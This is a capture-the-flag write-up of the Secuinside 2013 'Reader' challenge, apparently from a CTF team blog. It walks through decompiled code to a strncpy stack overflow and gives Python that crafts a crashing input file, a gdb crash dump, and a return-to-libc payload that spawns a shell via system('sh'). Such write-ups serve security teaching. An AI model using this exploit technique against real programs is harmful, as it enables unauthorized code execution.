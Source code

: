 ```yaml
---
title: '[Secuinside CTF 2013] Reader Writeup'
author: suto
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358960
kopa_newsmixlight_total_view:
  - 1
categories:
  - 'CTF - CLGT Crew'
tags:
  - CLGT
  - CTF
  - return-to-libc
---
```

*Description:*

> http://war.secuinside.com/files/reader
> 
> ip : 59.9.131.155  
> port : 8282 (SSH)  
> account : guest / guest
> 
> We have obtained a program designed for giving orders to criminals.
> 
> Our investigators haven&#8217;t yet analyzed the file format this program reads.
> 
> Please help us analyze the file format this program uses, find a vulnerability, and take a shell.

From the description we can know this challenge requires an input file with correct format. Since it is simple to determine that format, I won&#8217;t talk deeper, you can find the details in sub_0804891A.  
So I will show the vulnerability in this &#8220;Reader&#8221;.

Below is the main routine of this challenge:

<pre class="brush: cpp; title: ; notranslate" title="">int __cdecl sub_80490B8(signed int a1, int a2)
{
  int v2; // ecx@7
  int result; // eax@7
  int file; // [sp+20h] [bp-90h]@4
  char buffer[140]; // [sp+24h] [bp-8Ch]@1

  *(_DWORD *)&buffer[136] = *MK_FP(__GS__, 20);
  if ( a1 &lt;= 1 )
  {
    printf("Usage: %s &lt;FILENAME&gt;n", *(_DWORD *)a2);
    exit(1);
  }
  sub_8048825(*(const char **)(a2 + 4));
  file = open(*(const char **)(a2 + 4), 0);
  if ( file &lt; 0 )
  {
    perror(&byte_8049322);
    exit(1);
  }
  pre_path(file, (_DWORD *)buffer);
  vuln_path((_DWORD *)buffer);
  free_path((_DWORD *)buffer);
  close(file);
  result = 0;
  if ( *MK_FP(__GS__, 20) != *(_DWORD *)&buffer[136] )
    __stack_chk_fail(v2, *MK_FP(__GS__, 20) ^ *(_DWORD *)&buffer[136]);
  return result;
}
</pre>

As you can see, variable buffer is used in multiple locations. After some minutes review I saw an interesting point in sub_08048C7A:

<pre class="brush: cpp; title: ; notranslate" title="">int __cdecl vuln_path_(_DWORD *BUFF)
{
  size_t ulen; // eax@4
  int v2; // edx@4
  int v3; // ecx@4
  int result; // eax@4
  unsigned int i; // [sp+28h] [bp-20h]@1
  int v6; // [sp+3Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  for ( i = 0; BUFF[2] &gt; i; ++i )
  {
    putchar(*(_BYTE *)(BUFF[7] + i));
    fflush(stdout);
    usleep(BUFF[3]);
  }
  ulen = strlen((const char *)BUFF + 83);       // re-cal length (1)
  strncpy(BUFF[6], gPTR, ulen);                 // overflow occurs
  puts("n");
  result = *MK_FP(__GS__, 20) ^ v6;
  if ( *MK_FP(__GS__, 20) != v6 )
    __stack_chk_fail(v3, v2);
  return result;
}
</pre>

The *strncpy()* function copies **ulen** bytes from **gPTR** to **BUFF[6]** without any limit check. So I back to main routine to see where **BUFF[6]** is initialized, and it is located in sub_08048D41:

<pre class="brush: cpp; title: ; notranslate" title="">unsigned int index; // [sp+18h] [bp-20h]@1
  int s[7]; // [sp+1Ch] [bp-1Ch]@1

  bzero(s, 0x14u);
  putchar(10);
  for ( index = 0; *BUFF &gt; index; ++index )
  {
    putchar(*(_BYTE *)(BUFF[5] + index));
    fflush(stdout);
    usleep(BUFF[3]);
  }
  printf("nn ");
  for ( index = 0; BUFF[1] + 4 &gt; index; ++index )
  {
    putchar(*((_BYTE *)BUFF + 16));
    fflush(stdout);
    usleep(BUFF[3]);
  }
 .....
 .....
  BUFF[6] = &index;
 .....
 .....
</pre>

So **BUFF[6]** is set to address of local variable of this function, we can clearly see this function is not protected by stack cookie. So it is just a simple buffer overflow issue. We can craft a valid file format and see where it gets the input to calculate **ulen** in (1). Back to sub_0804891A we can see:

<pre class="brush: cpp; title: ; notranslate" title="">*BUFF = *(_DWORD *)&buf;
  read(fd, &buf, 4u);
  BUFF[1] = *(_DWORD *)&buf;                    // read 4 bytes from file
  read(fd, &buf, 4u);
  BUFF[2] = *(_DWORD *)&buf;
  read(fd, &buf, 4u);
  BUFF[3] = *(_DWORD *)&buf;
  read(fd, &buf, 1u);
  *((_BYTE *)BUFF + 16) = buf;
  if ( *BUFF &lt;= 4u || *BUFF &gt; 0x32u || BUFF[1] &gt; 0x64u || BUFF[2] &gt; 0x320u || !*((_BYTE *)BUFF + 16) )// 0x4-0x32 0x64 0x32
    ((void (__cdecl *)(_DWORD))ERR)("Initialization error");
  Copy(&buf, (char *)BUFF + 32);
  BUFF[5] = malloc(*BUFF);
  if ( !BUFF[5] )
    ((void (__cdecl *)(_DWORD))ERR)("malloc() function error");
  BUFF[6] = malloc(BUFF[1]);                    // use 4 bytes read above to malloc -&gt; BUFF[6] will has this length
  gPTR = (void *)BUFF[6]; -&gt; Set gPTR to BUFF[6]
  if ( !BUFF[6] )
    ((void (__cdecl *)(_DWORD))ERR)("malloc() function error");
  BUFF[7] = malloc(BUFF[2]);
  if ( !BUFF[7] )
    ((void (__cdecl *)(_DWORD))ERR)("malloc() function error");
  bzero((void *)BUFF[5], *BUFF);
  bzero((void *)BUFF[6], BUFF[1]);
  bzero((void *)BUFF[7], BUFF[2]);
  read(fd, (void *)BUFF[5], *BUFF);
  read(fd, (void *)BUFF[6], BUFF[1]);
  read(fd, (void *)BUFF[7], BUFF[2]);
</pre>

Since it checks **BUFF[1]** with 0&#215;64, I blindly set it to 0&#215;63 to maximize the len of **gPTR** string and got a nice crash, so no need to do further investigation. Below is python code to generate valid *&#8220;test.sec&#8221;* file and trigger the crash:

<pre class="brush: python; title: ; notranslate" title="">data = "xff" + "SECUINSIDE" + "x00" + "Ax00"+"A"*26 +"CCCC" + "B"*(100-4-28) +"xff"*4
       + "x08x00x00x00"
       + "x63x00x00x00" # will become BUFF[1] and length of BUFF[6]
       + "x32x00x00x00"
       + "x00x00x00x00"
       + "X"*200
file = open("test.sec","w")
file.write(data)
file.close()
</pre>

Run reader with *test.sec* and we got a crash looks like:

<pre class="brush: plain; title: ; notranslate" title="">- THE END -
document identifier code: 14821847921482184792148218479214821847921482184792

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x2
EBX: 0xb7fcfff4 --&gt; 0x1a0d7c
ECX: 0xffffffff
EDX: 0xb7fd18b8 --&gt; 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x58585858 ('XXXX')
ESP: 0xbffff640 ("XXXXXXXXXX")
EIP: 0x58585858 ('XXXX')
EFLAGS: 0x210286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x58585858
[------------------------------------stack-------------------------------------]
0000| 0xbffff640 ("XXXXXXXXXX")
0004| 0xbffff644 ("XXXXXX")
0008| 0xbffff648 --&gt; 0x5858 ('XX')
0012| 0xbffff64c --&gt; 0xb7fff918 --&gt; 0x0
0016| 0xbffff650 --&gt; 0x0
0020| 0xbffff654 --&gt; 0x0
0024| 0xbffff658 --&gt; 0x0
0028| 0xbffff65c --&gt; 0xbffff794 --&gt; 0xbffff8b6 ("/home/suto/reader")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x58585858 in ?? ()
</pre>

As this is a local exploit, *&#8220;ulimit -s unlimited&#8221;* trick will help to de-randomize libc and a simple system(&#8220;sh&#8221;) will work. Payload:

<pre class="brush: plain; title: ; notranslate" title="">system = 0x4006b280
sh = 0x8048366
payload = "xff" + "SECUINSIDE" + "x00" + "Ax00"+"A"*26 +"CCCC" + "B"*(100-4-28) +"xff"*4
         + "x08x00x00x00"
         + "x08x00x00x00"
         + "x32x00x00x00"
         + "x00x00x00x00"
         + "A"*37 # padding
         + struct.pack("&lt;L", system) + struct.pack("&lt;L", -1) + struct.pack("&lt;L", sh)
fd = open("test.sec","w")
fd.write(payload)
fd.close()
</pre>